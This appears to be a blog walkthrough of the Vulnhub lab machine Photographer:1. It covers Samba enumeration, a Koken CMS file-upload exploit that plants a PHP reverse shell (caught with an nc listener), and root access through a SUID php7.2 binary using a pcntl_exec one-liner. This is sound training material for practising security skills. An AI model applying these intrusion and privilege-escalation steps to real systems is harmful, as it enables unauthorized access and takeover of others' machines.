 ```yaml
---
date: 2020-09-01 00:04:11
layout: post
title: "Photographer 1 Vulnhub Walkthrough"
subtitle:
description: Photographer:1 is a boot2root machine from Vulnhub. This VM is rated easy and good for beginners.
image: /assets/img/uploads/photographer/photographer.webp
optimized_image: /assets/img/uploads/photographer/photographer-optimized.webp
category: walkthrough
tags: vulnhub boot2root
author: madhavmehndiratta
paginate: false
keywords: vulnhub, greenoptic ctf, photographer vulnhub walkthrough, photographer 1 vulnhub, photographer vulnhub, photographer walkthrough, photographer writeup, infosecarticles, infosec articles
---
```


Today I will be sharing a walkthrough of Photographer:1 which is a boot2root machine available on Vulnhub. There are two flags and our goal is to read all of them. This includes enumerating samba to find some login information and then exploiting a CVE to upload a php shell and then exploiting a SUID to gain a root shell. I've added the IP to my hosts file, so Let's Begin!

```r
┌──(madhav㉿kali)-[~]
└─$ cat /etc/hosts
127.0.0.1       localhost
127.0.1.1       kali
192.168.1.32    photographer.local
```

## Initial Enumeration

I started the enumeration by running a port scan using nmap to look for open ports and default scripts. 

```r
┌──(madhav㉿kali)-[~/Documents/vulnhub/photographer]
└─$ nmap -sC -sV -oA nmap/initial photographer.local
Starting Nmap 7.80 ( https://nmap.org )
Nmap scan report for photographer.local (192.168.1.32)
Host is up (0.00034s latency).Not shown: 996 closed ports
PORT     STATE SERVICE      VERSION
80/tcp   open  http         Apache httpd 2.4.18 ((Ubuntu))
|_http-server-header: Apache/2.4.18 (Ubuntu)
|_http-title: Photographer by v1n1v131r4
139/tcp  open  netbios-ssn  Samba smbd 3.X - 4.X (workgroup: WORKGROUP)
445/tcp  open  netbios-ssn  Samba smbd 4.3.11-Ubuntu (workgroup: WORKGROUP)
8000/tcp open  ssl/http-alt Apache/2.4.18 (Ubuntu)
|_http-generator: Koken 0.22.24
|_http-server-header: Apache/2.4.18 (Ubuntu)
|_http-title: daisa ahomi
Service Info: Host: PHOTOGRAPHER

Host script results:
|_clock-skew: mean: 1h20m00s, deviation: 2h18m33s, median: 0s
|_nbstat: NetBIOS name: PHOTOGRAPHER, NetBIOS user: <unknown>, NetBIOS MAC: <unknown> (unknown)
| smb-os-discovery: 
|   OS: Windows 6.1 (Samba 4.3.11-Ubuntu)
|   Computer name: photographer
|   NetBIOS computer name: PHOTOGRAPHER\x00
|   Domain name: \x00
|   FQDN: photographer
|_  System time: 2020-08-27T06:27:22-04:00 
| smb-security-mode: 
|   account_used: guest
|   authentication_level: user
|   challenge_response: supported
|_  message_signing: disabled (dangerous, but default)
| smb2-security-mode: 
|   2.02: 
|_    Message signing enabled but not required
| smb2-time: 
|   date: 2020-08-27T10:27:22
|_  start_date: N/A

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 115.57 seconds
```
We see Samba smbd running on port 139 and 445 and Apache web servers running on port 80 and 8000. I decided to enumerate port 139 and 445 first. First I used <b>smbclient -L</b> to list all the shares available on the server. Just leave the password field blank and press enter.

```r
┌──(madhav㉿kali)-[~/Documents/vulnhub/photographer]
└─$ smbclient -L photographer.local 
Enter WORKGROUP\madhav's password: 

        Sharename       Type      Comment
        ---------       ----      -------
        print$          Disk      Printer Drivers
        sambashare      Disk      Samba on Ubuntu
        IPC$            IPC       IPC Service (photographer server (Samba, Ubuntu))
SMB1 disabled -- no workgroup available
```

Next I accessed the <b>sambashare</b> using the smbclient. Inside the share I found two files named <i>mailsent.txt</i> and 
<i>wordpress.bkp.zip.</i> I downloaded both the files using the <b>get</b> command.

```r
┌──(madhav㉿kali)-[~/Documents/vulnhub/photographer]
└─$ smbclient '\\photographer.local\sambashare'
Enter WORKGROUP\madhav's password: 
Try "help" to get a list of possible commands.
smb: \> ls
  .                                   D        0  Tue Jul 21 07:00:07 2020
  ..                                  D        0  Tue Jul 21 15:14:25 2020
  mailsent.txt                        N      503  Tue Jul 21 06:59:40 2020
  wordpress.bkp.zip                   N 13930308  Tue Jul 21 06:52:23 2020

                278627392 blocks of size 1024. 264268400 blocks available
smb: \> get mailsent.txt 
getting file \mailsent.txt of size 503 as mailsent.txt (61.4 KiloBytes/sec) (average 61.4 KiloBytes/sec)
smb: \> get wordpress.bkp.zip 
getting file \wordpress.bkp.zip of size 13930308 as wordpress.bkp.zip (160044.7 KiloBytes/sec) (average 146282.9 KiloBytes/sec)
smb: \> exit
```

The <b>mailsent.txt</b> appears to be a copy of a mail. We can save the emails and names used in the email which may be useful in future.

<center><br>
<img src="/assets/img/uploads/photographer/mailsent.png">
</center>

Also, I tried enumerating the <b>wordpress.bkp.zip.</b> but did not find anything useful there. I suppose that was just a rabbit hole. Next I started enumeration on port 80.

<center><br>
<img src="/assets/img/uploads/photographer/port80.png">
</center>

The port 80 seems to run a beautiful website. Unfortunately, I didn't find anything useful here. 

## User Shell

<center><br>
<img src="/assets/img/uploads/photographer/port8000.png">
</center>

Next I went to port 8000 for further enumeration. This is the Daisa's website mentioned in the <i>mailsent.txt</i> and we can see that this is built using Koken CMS. The first thing I did after reading was to check on Google if some CVE is available for this CMS. I found an <a href="https://www.exploit-db.com/exploits/48706">exploit</a> which is published by the author of this machine itself :)

<center><br>
<img src="/assets/img/uploads/photographer/koken.png">
</center>

To run this exploit, we need to login into the CMS first. The credentials were already with us from the <i>mailsent.txt.</i> I logged in to the Koken CMS with username <i>daisa@photographer.com</i> and password <i>babygirl.</i>

<center><br>
<img src="/assets/img/uploads/photographer/koken-cms.png">
</center>

Now we will upload a php reverse shell and follow the steps as mentioned in the <a href="https://www.exploit-db.com/exploits/48706">exploit.</a> I will be using the php reverse shell by <a href="https://github.com/pentestmonkey/php-reverse-shell">pentest monkey.</a> I opened the upload dialog box by clicking on the <i>Import Content</i> button.

<center><br>
<img src="/assets/img/uploads/photographer/upload.png">
</center>

After selecting the reverse shell, I opened Burpsuite and configured my browser to connect to the Burp proxy. I turned the Intercept on and clicked on the import button. Then, I changed the name from <b>shell.php.jpg</b> to <b>shell.php</b> in the request as mentioned in the <a href="https://www.exploit-db.com/exploits/48706">exploit.</a>

<center><br>
<img src="/assets/img/uploads/photographer/burp.png">
</center>

Once that's complete, you will find a download button on the right, just right click there and choose "Open in New Tab" option. 

<center><br>
<img src="/assets/img/uploads/photographer/download.png">
</center>

We got our shell and now we can read our first flag :)

```r
┌──(madhav㉿kali)-[~/Documents/vulnhub/photographer]
└─$ nc -lvnp 9001     
listening on [any] 9001 ...
connect to [192.168.1.4] from (UNKNOWN) [192.168.1.32] 39398
Linux photographer 4.15.0-45-generic #48~16.04.1-Ubuntu SMP Tue Jan 29 18:03:48 UTC 2019 x86_64 x86_64 x86_64 GNU/Linux
 12:23:29 up 12 min,  0 users,  load average: 0.00, 0.01, 0.01
USER     TTY      FROM             LOGIN@   IDLE   JCPU   PCPU WHAT
uid=33(www-data) gid=33(www-data) groups=33(www-data)
/bin/sh: 0: cant access tty; job control turned off
$ python -c 'import pty;pty.spawn("/bin/bash")'
www-data@photographer:/$ cd /home/daisa/
www-data@photographer:/home/daisa$ cat user.txt 
d41d8cd98f00b204e9800998ecf8427e
```
## Privilege Escalation

The privilege escalation for this machine was not that difficult. I started with searching for all the SUID's available.

```r
www-data@photographer:/$ find / -type f -perm -u=s 2>/dev/null
/usr/lib/dbus-1.0/dbus-daemon-launch-helper
/usr/lib/eject/dmcrypt-get-device
/usr/lib/xorg/Xorg.wrap
/usr/lib/snapd/snap-confine
/usr/lib/openssh/ssh-keysign
/usr/lib/x86_64-linux-gnu/oxide-qt/chrome-sandbox
/usr/lib/policykit-1/polkit-agent-helper-1
/usr/sbin/pppd
/usr/bin/pkexec
/usr/bin/passwd
/usr/bin/newgrp
/usr/bin/gpasswd
/usr/bin/php7.2
/usr/bin/sudo
/usr/bin/chsh
/usr/bin/chfn
/bin/ntfs-3g
/bin/ping
/bin/fusermount
/bin/mount
/bin/ping6
/bin/umount
/bin/su
```

We see a php7.2 SUID available, I searched for this on <a gref="https://gtfobins.github.io/gtfobins/php/">GTFO Bins</a> and found the way to escalate our privileges by using the following command.  

```r
www-data@photographer:/$ /usr/bin/php7.2 -r "pcntl_exec('/bin/bash', ['-p']);"
```
After executing, we can read our final flag!

<center><br>
<img src="/assets/img/uploads/photographer/root.png">
</center>

That’s it! Thanks for reading. Stay tuned for similar walkthroughs and much more coming up in the near future!
If you have any queries, you can contact me <a href="/contact">here.</a>

NOTE: The awesome artwork used in this article was created by <a href="https://dribbble.com/laurenmayhewlm">Lauren Mayhew.</a>
